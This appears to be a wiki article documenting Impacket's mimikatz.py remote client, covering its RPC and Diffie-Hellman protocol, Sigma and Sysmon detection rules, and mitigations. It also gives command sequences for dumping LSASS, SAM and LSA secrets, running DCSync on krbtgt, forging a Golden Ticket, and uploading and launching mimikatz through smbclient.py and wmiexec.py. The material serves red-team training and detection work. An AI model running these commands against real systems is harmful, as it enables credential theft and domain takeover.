

title: "mimikatz.py"
script: "examples/mimikatz.py"
category: "Credential Access"
status: "Published"
protocols:
  - DCE/RPC
  - SMB
  - NTLM
  - Kerberos
ms_specs:
  - MS-RPCE
  - MS-SMB
  - MS-NLMP
mitre_techniques:
  - T1003.001
  - T1003.002
  - T1003.004
  - T1003.006
  - T1558
  - T1134.001
auth_types:
  - password
  - nt_hash
  - aes_key
  - kerberos_ccache
tags:
  - impacket
  - impacket/examples
  - category/credential_access
  - status/published
  - protocol/dcerpc
  - protocol/smb
  - authentication/ntlm
  - authentication/kerberos
  - technique/remote_mimikatz
  - technique/lsass_dumping
  - technique/dcsync
  - technique/dpapi
  - technique/kerberos_tickets
  - technique/diffie_hellman_session_key
  - mitre/T1003/001
  - mitre/T1003/002
  - mitre/T1003/004
  - mitre/T1003/006
  - mitre/T1558
  - mitre/T1134/001
aliases:
  - mimikatz
  - impacket-mimikatz
  - mimikatz_rpc_client


# mimikatz.py

> **One line summary:** Mini shell client for a **remote mimikatz RPC server** that Benjamin Delpy (`@gentilkiwi`) shipped as part of `mimikatz` itself, enabling operators who already have mimikatz running on a target with its RPC server started (`rpc::server` command) to issue mimikatz commands from a Linux attack host rather than an interactive Windows session, with a Diffie Hellman key exchange plus RC4 encryption protecting the command and response traffic inside the DCE/RPC channel. **This tool does NOT dump credentials by itself** and requires a pre-existing mimikatz process on the target with its RPC listener active; it is the narrow-use cousin of [`secretsdump.py`](secretsdump.md), useful only when a mimikatz RPC server is already running, which is rare in practice.

| Field | Value |
|:---|:---|
| Script | `examples/mimikatz.py` |
| Category | Credential Access |
| Status | Published |
| Primary protocols | DCE/RPC (mimikatz custom interface), SMB, NTLM, Kerberos |
| Primary Microsoft specifications | `[MS-RPCE]`, `[MS-SMB]`, `[MS-NLMP]` |
| MITRE ATT&CK techniques | T1003.001 OS Credential Dumping: LSASS Memory, T1003.002 Security Account Manager, T1003.004 LSA Secrets, T1003.006 DCSync, T1558 Steal or Forge Kerberos Tickets, T1134.001 Token Impersonation/Theft |
| Authentication types supported | Password, NT hash, AES key, Kerberos ccache |
| First appearance in Impacket | Early Impacket |
| Original author | Alberto Solino (`@agsolino`) as the Impacket client; the RPC server interface was created by Benjamin Delpy (`@gentilkiwi`) as part of mimikatz itself |


## Prerequisites

This article builds on:

- [`00_Introduction_and_Architecture.md`](Introduction_and_Architecture.md) for the Impacket stack overview.
- [`rpcdump.py`](../01_recon_and_enumeration/rpcdump.md) for DCE/RPC and Endpoint Mapper fundamentals.
- [`secretsdump.py`](secretsdump.md) for the standard credential extraction workflow. This article is a companion that covers a narrow specialized scenario; `secretsdump.py` handles the general case.

The tool also requires familiarity with mimikatz itself. If you have not used mimikatz interactively, read Sean Metcalf's overview at `https://adsecurity.org/?page_id=1821` before continuing. The Impacket tool is only useful as a remote client to a mimikatz server you have already gotten running on a target.


## What it does

`mimikatz.py` is an interactive shell that connects to a **mimikatz RPC server running on a remote Windows host** and forwards operator-typed mimikatz commands to it, displaying the responses. The RPC server is a feature of mimikatz itself, not a Microsoft Windows component: it is started inside a running mimikatz process by executing `rpc::server` at the mimikatz prompt.

When connected, the tool presents a prompt (`mimikatz # `) that behaves exactly like a local mimikatz console. Operators type standard mimikatz commands:

- `privilege::debug` to enable debug privileges.
- `token::elevate` to impersonate a SYSTEM token.
- `sekurlsa::logonpasswords` to extract credentials from LSASS memory.
- `lsadump::sam` to dump the SAM database.
- `lsadump::dcsync /user:domain\krbtgt` to perform DCSync.
- `kerberos::list` to enumerate Kerberos tickets.
- Any other mimikatz command.

The commands run on the target (inside the mimikatz process that is hosting the RPC server), not on the attacker's Linux host. Results are returned over the RPC channel and displayed to the operator.

The operational value is narrow. `mimikatz.py` is useful **only if there is already a mimikatz process with its RPC server listening on the target**. It does not upload mimikatz, does not start a mimikatz process, and does not attempt any credential extraction on its own. These prerequisites make it a niche tool compared to [`secretsdump.py`](secretsdump.md) which does everything self-contained.

The few scenarios where `mimikatz.py` is the right choice:

- A red team implant has mimikatz embedded and the RPC server has been started on a foothold host; operators want to interact with that instance from Linux.
- A test environment where mimikatz is being left running for ongoing research.
- A specific attack chain where mimikatz has been deployed manually (via some execution primitive) and the operator wants clean Linux-side access to it.

For credential dumping in general, `secretsdump.py` is the correct tool and this article exists to document the narrow alternative.


## Why it exists

Mimikatz has been the canonical Windows credential extraction tool since Benjamin Delpy released it in 2007. Every serious offensive tester and red teamer uses or has used it. The tool operates by interacting with LSASS (the Local Security Authority Subsystem Service) memory, reading credential material that LSASS caches for legitimate Windows authentication purposes.

Traditionally, mimikatz runs interactively on Windows: operators either copy the binary to a target and execute it, or load a reflectively injected copy via `Invoke-Mimikatz` (PowerSploit). Both approaches require a Windows shell on the target.

Delpy added an RPC server mode to mimikatz to enable remote operation: operators start mimikatz on one machine with `rpc::server`, and another mimikatz instance (on a different machine) can connect as a client and drive the first one. This is useful for scenarios where the operator's Windows attack host needs to run commands on a compromised victim host running mimikatz locally.

Alberto Solino wrote the Impacket equivalent client (`mimikatz.py`) so Linux operators could do the same thing without needing a Windows machine. The tool parses the same commands, uses the same mimikatz RPC interface, and produces the same output.

The design preserves all of mimikatz's capabilities (DCSync, Kerberos ticket forging, SAM/LSASS dumping, etc.) while making them accessible from Linux. The limitation is that a mimikatz process must already be running on the target with the RPC server started; the Impacket tool does not handle that setup step.

In practice, operators rarely set up this scenario because:

- Starting mimikatz on the target already requires the kind of access that makes `secretsdump.py` (which dumps everything in one shot) more convenient.
- Running mimikatz as a long-lived process on a target is unusual operational security; most mimikatz usage is transient.
- The scenarios where a mimikatz RPC server is actively running tend to involve Windows-based red team tooling that has its own Windows-native client.

So `mimikatz.py` is documented here primarily for completeness. The code is also interesting as a case study in custom DCE/RPC interfaces and Diffie Hellman key exchange over RPC, even if the tool itself sees limited use.


## The protocol theory

This section covers what makes the mimikatz RPC protocol distinct from the Microsoft protocols documented in other wiki articles.

### The mimikatz RPC interface

The RPC server that mimikatz exposes is identified by UUID **`17fc11e9-c258-4b8d-8d07-2f4125156244`** (defined as `MSRPC_UUID_MIMIKATZ` in Impacket's `mimilib` module). It is a **custom interface created by Benjamin Delpy**, not a Microsoft documented protocol. There is no corresponding `[MS-XXX]` specification.

The interface supports transport over two protocol sequences:

- **`ncacn_np`** (named pipe over SMB): the server listens on a named pipe over an SMB session. This is the default and works anywhere SMB works.
- **`ncacn_ip_tcp`** (direct TCP): the server listens on a TCP port, separate from SMB. Requires the target's firewall to permit the port.

The Impacket client uses Endpoint Mapper (`epm.hept_map`) to discover the specific endpoint at runtime, trying named pipe first and falling back to TCP:

```python
stringBinding = epm.hept_map(address, mimilib.MSRPC_UUID_MIMIKATZ, protocol='ncacn_np', dce=dce)
# if that fails:
stringBinding = epm.hept_map(address, mimilib.MSRPC_UUID_MIMIKATZ, protocol='ncacn_ip_tcp')
```

Endpoint Mapper usage here is standard DCE/RPC: the EPM on the target knows which endpoint the mimikatz RPC server registered, and the client asks EPM for the binding.

### Authentication

Authentication to the RPC endpoint uses standard Windows authentication: NTLM or Kerberos, same as any other DCE/RPC interface. The caller must have credentials that allow opening the relevant pipe or TCP port on the target.

In practice, the mimikatz process serving the RPC interface is itself already elevated (mimikatz requires SYSTEM or debug privileges for most interesting operations). The RPC authentication is orthogonal to mimikatz's internal privilege requirements: the attacker authenticates to the pipe with one set of credentials, but the actions executed by mimikatz happen in the context of the mimikatz process itself.

The client sets authentication level to `RPC_C_AUTHN_LEVEL_PKT_PRIVACY`, which encrypts the entire RPC traffic with the Windows authentication session key:

```python
dce.set_auth_level(RPC_C_AUTHN_LEVEL_PKT_PRIVACY)
```

This is the same authentication level used by `secretsdump.py` for DCSync and other sensitive operations.

### The Diffie Hellman key exchange

On top of the RPC-level encryption, the mimikatz RPC interface performs its own Diffie Hellman key exchange after binding. The reason: mimikatz wants to encrypt the command and response data with a key that is not dependent on the RPC session key. This adds defense against RPC layer compromise.

The handshake:

1. Client generates a Diffie Hellman key pair.
2. Client sends its public key to the server.
3. Server generates its own Diffie Hellman key pair.
4. Server sends its public key back.
5. Both sides compute the shared secret.
6. Subsequent commands and responses are encrypted with RC4 using the shared secret as the key.

The Impacket source code:

```python
dh = mimilib.MimiDiffeH()
blob = mimilib.PUBLICKEYBLOB()
blob['y'] = dh.genPublicKey()[::-1]
publicKey = mimilib.MIMI_PUBLICKEY()
publicKey['sessionType'] = mimilib.CALG_RC4
```

The byte reversal (`[::-1]`) is an endianness quirk in the Windows crypto API that mimikatz's server expects. `sessionType` set to `CALG_RC4` indicates RC4 as the symmetric cipher.

The RC4 encryption is weak by modern standards (RC4 has known biases and should not be used for new designs). It was chosen for compatibility with the Windows CryptoAPI primitives that mimikatz uses internally. For the purpose this serves (defense against passive RPC layer observation), it is adequate; anyone capable of breaking RC4 on real-time encrypted traffic is also capable of compromising the RPC layer directly.

### Command serialization

Commands are sent as text strings matching what an interactive mimikatz session would accept. The client wraps each command in a structure, RC4 encrypts it, and sends it via the RPC call.

The server response is similarly RC4 encrypted and contains the text output of the command. The client decrypts and displays. There is no structured data marshaling beyond this; the protocol is essentially a text-in text-out remote shell over RPC with an encryption layer.

This design mirrors how interactive mimikatz works internally: it parses text commands and produces text output. The RPC wrapper exposes that same interface over the network.

### The session lifecycle

The server accepts multiple commands over a single session. The Diffie Hellman handshake is done once at the start. Subsequent commands reuse the derived RC4 key.

When the client disconnects, the server terminates the session. The mimikatz RPC server process remains running (unless the operator typed `exit` or similar inside mimikatz); a new client can connect and start another session.

### Why this is NOT a credential extraction tool

The key distinction from [`secretsdump.py`](secretsdump.md):

- **`secretsdump.py`** establishes SMB and DCE/RPC sessions directly with Windows, uses documented Microsoft protocols (MS-RRP for registry, MS-DRSR for DCSync), and extracts credentials entirely on its own.
- **`mimikatz.py`** connects to an already-running mimikatz process on the target and issues commands to that process. All the actual credential extraction happens inside the mimikatz process, not inside Impacket.

Practically this means:

- `secretsdump.py` works against any Windows system where the attacker has appropriate credentials.
- `mimikatz.py` works only where a mimikatz RPC server is already running.

This is why `mimikatz.py` is so rarely used: the setup cost (getting mimikatz running on the target with its RPC server) is higher than just running `secretsdump.py` directly.


## How the tool works internally

The script is small because it leans on the `mimilib` module for the protocol specifics.

1. **Argument parsing.** Target string, optional command file, standard authentication flags.

2. **Transport setup.** Calls `DCERPCTransportFactory` to build a transport for the target.

3. **Authentication configuration.** Calls `set_credentials` with the specified credentials (password, hash, AES key, or Kerberos ticket). Sets authentication level to `RPC_C_AUTHN_LEVEL_PKT_PRIVACY` for traffic encryption.

4. **Endpoint discovery.** Calls `epm.hept_map` to find the mimikatz RPC endpoint:
    - First attempts `ncacn_np` (named pipe).
    - Falls back to `ncacn_ip_tcp` (direct TCP) if named pipe fails.
    - Fails if neither is registered (which means no mimikatz RPC server is running on the target).

5. **DCE/RPC bind.** Binds to the mimikatz interface UUID `17fc11e9-c258-4b8d-8d07-2f4125156244`.

6. **Diffie Hellman handshake.** Constructs `MimiDiffeH` object, generates key pair, sends public key via the server's `MimiBind` method or equivalent, receives server public key, computes shared secret.

7. **Interactive shell.** Enters a `cmd.Cmd` loop with the `mimikatz # ` prompt. Reads operator input.

8. **Command execution.** For each command typed:
    - Encrypts the command with RC4 using the shared secret.
    - Sends via the mimikatz RPC call.
    - Receives encrypted response.
    - Decrypts with RC4.
    - Displays to the operator.

9. **Non-interactive mode.** If `-file <path>` was specified, reads commands from the file instead of standard input. Useful for scripted execution of canned mimikatz command sequences.

10. **Session teardown.** On `exit` or EOF, closes the DCE/RPC session. The mimikatz server process on the target remains running.

The implementation is an excellent reference for how to build custom DCE/RPC clients in Impacket. The `mimilib` module in Impacket contains the marshaling primitives, and the `mimikatz.py` script demonstrates how to use them together.


## Authentication options

Standard four-mode pattern for the RPC transport authentication. These credentials authenticate to the target for opening the RPC endpoint; they are unrelated to mimikatz's internal privilege checks (which depend on the context of the mimikatz process itself).

### Cleartext password

```bash
mimikatz.py CORP.LOCAL/admin:'P@ss'@10.0.0.50
```

### NT hash

```bash
mimikatz.py CORP.LOCAL/admin@10.0.0.50 -hashes :<nthash>
```

### Kerberos ccache

```bash
export KRB5CCNAME=admin.ccache
mimikatz.py CORP.LOCAL/admin@10.0.0.50 -k -no-pass
```

### AES key

```bash
mimikatz.py CORP.LOCAL/admin@10.0.0.50 -aesKey <hex> -k -no-pass
```

### Minimum required privileges

- **To connect to the RPC endpoint:** the credentials must allow opening the pipe or TCP port. For named pipe, that is standard SMB authentication with local admin typically required on most versions of Windows because the pipe has ACL restrictions.
- **To execute interesting mimikatz commands:** depends on the mimikatz process context. If mimikatz is running as SYSTEM (typical), most commands work. If mimikatz is running as a regular user, operations requiring LSASS memory access will fail with `ERROR kuhl_m_sekurlsa_acquireLSA`.


## Practical usage

### Basic connection (assumes mimikatz RPC server is running on target)

```bash
mimikatz.py CORP.LOCAL/admin:'P@ss'@10.0.0.50
```

The tool connects and presents the mimikatz prompt:

```text
mimikatz # 
```

From here, standard mimikatz commands apply.

### Extract cached credentials with sekurlsa

```text
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
Authentication Id : 0 ; 712960 (00000000:000ae100)
Session           : Service from 0
User Name         : MediaAdmin$
Domain            : hacklab
...
msv :
    [00000003] Primary
    * Username : MediaAdmin$
    * Domain   : hacklab
    * NTLM     : 35950fdc8d3d99b4136510414009662d
    ...
```

Classic credential dump. The output format matches what would be produced by running mimikatz interactively on the target.

### Perform DCSync via the remote mimikatz

```text
mimikatz # lsadump::dcsync /user:corp.local\krbtgt
```

Returns the `krbtgt` hash. The DCSync operation runs from the mimikatz process context on the target, reaching out to a Domain Controller via MS-DRSR. The attacker's Linux client never touches MS-DRSR directly.

### List Kerberos tickets

```text
mimikatz # sekurlsa::tickets
```

Enumerates Kerberos tickets in all logon sessions. Tickets can be exported with `/export` for Pass-the-Ticket attacks.

### Create a Golden Ticket via remote mimikatz

```text
mimikatz # kerberos::golden /domain:corp.local /sid:S-1-5-21-XXX /krbtgt:<hash> /user:Administrator /ptt
```

Creates and injects a Golden Ticket in the mimikatz process's session. Useful only if the intention is to perform actions from that session; from Linux, [`ticketer.py`](../02_kerberos_attacks/ticketer.md) is more convenient for creating Golden Tickets to use elsewhere.

### Non-interactive command execution from a file

```bash
cat > commands.txt << 'EOF'
privilege::debug
sekurlsa::logonpasswords
lsadump::sam
lsadump::secrets
exit
EOF

mimikatz.py CORP.LOCAL/admin:'P@ss'@10.0.0.50 -file commands.txt
```

Runs each command in sequence and exits. Useful for scripted execution where the set of commands is predetermined.

### The realistic setup workflow

To actually use `mimikatz.py`, operators first need to establish a mimikatz RPC server on the target:

```bash
# Step 1: Upload mimikatz to the target (via smbclient.py or equivalent)
smbclient.py CORP.LOCAL/admin:'P@ss'@10.0.0.50 <<< 'use C$
cd \Windows\Temp
put mimikatz.exe'

# Step 2: Execute mimikatz with rpc::server (via wmiexec or similar)
wmiexec.py CORP.LOCAL/admin:'P@ss'@10.0.0.50 \
  'C:\Windows\Temp\mimikatz.exe "rpc::server" exit'

# Step 3: Connect from Linux with mimikatz.py
mimikatz.py CORP.LOCAL/admin:'P@ss'@10.0.0.50
```

Note the obvious issue with this workflow: **at step 2, the operator already has command execution on the target as admin**. At that point, a simple `secretsdump.py -just-dc` is far more efficient. Hence the narrow use case.

### Key flags

| Flag | Meaning |
|:---|:---|
| `target` (positional) | Domain/user[:password]@target. |
| `-file <path>` | Input file with commands (non-interactive mode). |
| `-hashes`, `-aesKey`, `-k`, `-no-pass` | Standard authentication flags. |
| `-dc-ip`, `-target-ip` | Explicit DC or target IP. |
| `-debug`, `-ts` | Verbose/timestamp logging. |

Note that `mimikatz.py` has one of the smallest argument sets in Impacket. Most of the complexity is inside mimikatz itself; the Impacket client is just a transport layer.


## What it looks like on the wire

DCE/RPC to the mimikatz custom UUID over either SMB named pipe or direct TCP.

### Session setup (named pipe path, default)

- TCP to port 445.
- SMB negotiate and session setup.
- Tree connect to `IPC$`.
- Open named pipe (the specific pipe name varies based on how mimikatz configures its RPC server).

### Session setup (direct TCP path)

- Direct TCP connection to the port mimikatz is listening on (specified when starting `rpc::server`, often a random high port).
- No SMB involvement.

### RPC binding

- EPM request to find the mimikatz endpoint.
- DCE/RPC bind to UUID `17fc11e9-c258-4b8d-8d07-2f4125156244`.
- Authentication level negotiation (PKT_PRIVACY).

### Diffie Hellman exchange

- Client sends `MimiBind` call containing its DH public key.
- Server responds with its DH public key.

### Command exchange

- Each typed command: RPC call with RC4-encrypted command string.
- Each response: RPC response with RC4-encrypted output.

### Wireshark filters

```text
dcerpc.if_id == 17fc11e9-c258-4b8d-8d07-2f4125156244   # mimikatz interface
dcerpc                                                  # all DCE/RPC
smb2                                                    # SMB if using named pipe
```

**The mimikatz UUID is one of the most distinctive signals in Impacket tooling.** Seeing this UUID in DCE/RPC traffic is essentially diagnostic of mimikatz activity; there is no legitimate Microsoft service using this interface. Any IDS/IPS can baseline for its absence and alert on presence.


## What it looks like in logs

Detection is primarily on the target side, where the mimikatz process is running. The mimikatz RPC server itself produces minimal logs; the significant activity happens inside mimikatz.

### Event ID 4624 / Sysmon Event 3: Network logon and connection

Standard authentication events fire when the client authenticates to the target. These are not specific to mimikatz; they indicate network connections that would need to be correlated with other signals.

### Event ID 4688 / Sysmon Event 1: Process creation

**The critical detection point is when mimikatz.exe itself is launched on the target.** If the operator used `wmiexec.py`, `psexec.py`, or similar to start mimikatz with `rpc::server`, those tool signatures apply (see the corresponding articles). Additionally:

- `mimikatz.exe` by name is flagged by essentially every modern EDR product.
- Renamed mimikatz is often still caught by YARA rules or behavioral detection.
- Reflectively loaded mimikatz (via `Invoke-Mimikatz` or custom loaders) is harder to catch but still leaves memory artifacts.

### Event ID 4656 / 4663: LSASS access

When mimikatz performs `sekurlsa::logonpasswords`, it opens a handle to LSASS with read access. This can produce:

- Event 4656 (handle requested on object) for processes with PROCESS_VM_READ, PROCESS_QUERY_INFORMATION, PROCESS_VM_WRITE access to LSASS.
- Event 4663 (access object) when the actual read occurs.

These require explicit audit policy configuration. The key audit policy: `Object Access → Audit Kernel Object`.

### Sysmon Event 10: ProcessAccess

With Sysmon configured to log LSASS access, Event 10 fires with the source process attempting to access LSASS. This is one of the highest-fidelity mimikatz detection signals available:

```yaml
EventID: 10
TargetImage: 'C:\Windows\System32\lsass.exe'
GrantedAccess: '0x1010' or '0x1410' or '0x143a'  # PROCESS_VM_READ variants
```

SwiftOnSecurity's Sysmon config and olafhartong's sysmon-modular both include LSASS access detection rules.

### Event ID 4673: Sensitive privilege use

When mimikatz runs `privilege::debug` to enable SeDebugPrivilege, Event 4673 fires. Normal administrative tools sometimes do this but most regular user activity does not; any unusual SeDebugPrivilege use is worth investigating.

### Starter Sigma rules

```yaml
title: mimikatz RPC Interface Connection
logsource:
  category: network
detection:
  selection:
    # Network-level detection requires specialized tooling (Suricata, Zeek)
    # that can inspect DCE/RPC UUID fields
    rpc_uuid: '17fc11e9-c258-4b8d-8d07-2f4125156244'
  condition: selection
level: critical
```

Requires a network IDS capable of parsing DCE/RPC UUIDs. Zeek with appropriate scripts can do this. Any hit is essentially diagnostic.

```yaml
title: LSASS Access from Unusual Process
logsource:
  product: windows
  service: sysmon
detection:
  selection:
    EventID: 10
    TargetImage|endswith: '\lsass.exe'
    GrantedAccess:
      - '0x1010'
      - '0x1410'
      - '0x143a'
      - '0x1438'
  filter_legitimate:
    SourceImage|endswith:
      - '\MsMpEng.exe'
      - '\svchost.exe'
      - '\wininit.exe'
  condition: selection and not filter_legitimate
level: high
```

High fidelity. Catches the LSASS access that both mimikatz and other credential dumpers perform. Needs tuning against the specific legitimate tools in the environment.

```yaml
title: Mimikatz Command Line Patterns
logsource:
  product: windows
  category: process_creation
detection:
  selection_mimikatz:
    CommandLine|contains:
      - 'sekurlsa::'
      - 'lsadump::'
      - 'kerberos::golden'
      - 'kerberos::ptt'
      - 'privilege::debug'
      - 'rpc::server'
  condition: selection_mimikatz
level: critical
```

Catches command-line arguments that only make sense for mimikatz. Limited utility when mimikatz commands are passed via the RPC protocol (as with `mimikatz.py`), but useful for direct execution scenarios.


## Detection and defense

### Detection opportunities

**LSASS access by unusual processes.** The highest-fidelity general mimikatz detection. Sysmon Event 10 with appropriate filtering.

**mimikatz UUID in network traffic.** Diagnostic. Requires network IDS capable of DCE/RPC inspection.

**Mimikatz binary signature detection.** AV and EDR products detect `mimikatz.exe` by hash, by strings, and by behavior. Renamed binaries and reflective loading defeat hash detection but often not behavioral detection.

**Command-line patterns.** Even partial command line visibility catches the setup phase: `mimikatz.exe "rpc::server"` is a strong signal.

**Microsoft Defender for Endpoint and commercial EDR.** Multiple behavioral detections for mimikatz, including Process Hollowing, LSASS access, and specific mimikatz sub-capabilities.

### Preventive controls

- **Credential Guard.** Virtualization-based LSA protection that encrypts LSA secrets so mimikatz cannot read them even with debug privileges. Windows 10/11 Enterprise and Server 2016+.
- **LSA Protection (RunAsPPL).** Marks LSASS as a Protected Process Light, preventing ordinary process access. Bypasses exist but they raise the bar significantly. Enable via `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\RunAsPPL = 1`.
- **Restricted Admin mode for RDP.** Prevents credential caching for RDP sessions.
- **Disable WDigest.** Default on modern Windows but ensure `HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\UseLogonCredential` is not set to 1.
- **Protected Users group.** Members do not cache credentials in memory and cannot use NTLM.
- **Limit debug privilege.** Remove SeDebugPrivilege from the default local admin assignment where possible.
- **Monitor for SeDebugPrivilege assignment changes.** A change to this privilege assignment is worth investigating.
- **Block mimikatz executables.** AppLocker or WDAC rules to prevent execution of known mimikatz binaries. Defeats only the lazy attacker; serious operators recompile.
- **Network segmentation.** Block outbound port 445 and unusual high-port TCP connections to domain controllers and Tier 0 assets.


## Related tools and attack chains

`mimikatz.py` completes the Credential Access category at 2 of 3 articles alongside [`secretsdump.py`](secretsdump.md). The third stub is `dpapi.py` which is a separate specialized tool for DPAPI secret extraction.

### Related Impacket tools

- [`secretsdump.py`](secretsdump.md) is the general-purpose alternative and the right choice in nearly all scenarios. See that article for the comprehensive credential extraction coverage.
- [`ticketer.py`](../02_kerberos_attacks/ticketer.md) creates Kerberos Golden and Silver tickets on Linux without needing mimikatz on the target. For forging tickets, this is almost always the better tool.
- [`getTGT.py`](../02_kerberos_attacks/getTGT.md) and friends handle Kerberos authentication from Linux. For ticket acquisition and use, these tools work directly without mimikatz.

### Related external tools

- **mimikatz** at `https://github.com/gentilkiwi/mimikatz`. The original and canonical tool. Runs on Windows only.
- **Invoke-Mimikatz** (part of PowerSploit). Reflectively loads mimikatz in PowerShell. Detection signatures are widespread.
- **Rubeus** at `https://github.com/GhostPack/Rubeus`. .NET-based Kerberos abuse tool. For Kerberos operations specifically, Rubeus has superseded much of what mimikatz offered.
- **SharpKatz**, **SafetyKatz**, and other C# variants. Modified mimikatz forks designed to evade specific detections.
- **pypykatz** at `https://github.com/skelsec/pypykatz`. Pure Python reimplementation of mimikatz credential extraction. Can parse LSASS memory dumps and registry hives without the mimikatz binary. This is often the actual modern alternative for Linux operators.

### Why pypykatz often replaces this tool

For the specific scenario of "parse a mimikatz-style memory dump from Linux," `pypykatz` is the better tool:

```bash
# Dump LSASS memory on the target somehow (procdump, NanoDump, Task Manager, comsvcs.dll)
# Retrieve the dump file to Linux
# Parse with pypykatz:
pypykatz lsa minidump lsass.dmp
```

This produces the same output as mimikatz's `sekurlsa::logonpasswords` without needing any mimikatz process on the target. Operators who think they need `mimikatz.py` often actually need either `secretsdump.py` (for credential extraction) or `pypykatz` (for parsing dumps).

### The narrow attack chain where mimikatz.py fits



The decision tree shows why `mimikatz.py` has limited applicability: the scenarios where it adds value over `secretsdump.py` are specific and uncommon (interactive ticket manipulation, executing a range of mimikatz subcommands that secretsdump does not cover).


## Further reading

- **mimikatz wiki** at `https://github.com/gentilkiwi/mimikatz/wiki`. The canonical reference for mimikatz commands and modules. Essential reading for anyone using `mimikatz.py`.
- **Sean Metcalf "Mimikatz and Active Directory"** at `https://adsecurity.org/?page_id=1821`. Comprehensive overview of mimikatz capabilities with defensive recommendations.
- **Benjamin Delpy blog** at `https://blog.gentilkiwi.com/mimikatz`. The author's own documentation.
- **SpecterOps SharpKatz and related research**. Modern C# reimplementations of mimikatz techniques with bypasses for specific detections.
- **JPCERT/CC Tool Analysis Result Sheet for mimikatz** at `https://jpcertcc.github.io/ToolAnalysisResultSheet/`. Detailed defender-oriented breakdown of mimikatz artifacts.
- **pypykatz documentation** at `https://github.com/skelsec/pypykatz`. The Python reimplementation that often replaces `mimikatz.py` for Linux operators.
- **Microsoft "Credential Guard Overview"** at `https://learn.microsoft.com/en-us/windows/security/identity-protection/credential-guard/`. The primary mitigation for LSASS-based credential extraction.
- **Microsoft "Protect LSA Secrets"** documentation. LSA Protection / RunAsPPL configuration guide.
- **MITRE ATT&CK T1003.001** at `https://attack.mitre.org/techniques/T1003/001/`. LSASS Memory dumping technique.
- **MITRE ATT&CK T1003.006** at `https://attack.mitre.org/techniques/T1003/006/`. DCSync technique.

If you want to internalize the tool (acknowledging the narrow applicability), set up a lab scenario: deploy mimikatz to a domain-joined Windows VM, start it interactively with `mimikatz.exe "privilege::debug" "rpc::server"`, then connect from a Linux host with `mimikatz.py`. Run a few commands and observe the behavior. Then compare against the `secretsdump.py` equivalent workflow and note how much simpler the direct tool is. The exercise makes concrete why `mimikatz.py` is the rarely-used cousin: its value proposition only exists in a narrow slice of the attack space where other tools do not fit, and in those cases, operators are almost always better served by `pypykatz`, `secretsdump.py`, or running mimikatz interactively from a Windows attack host.
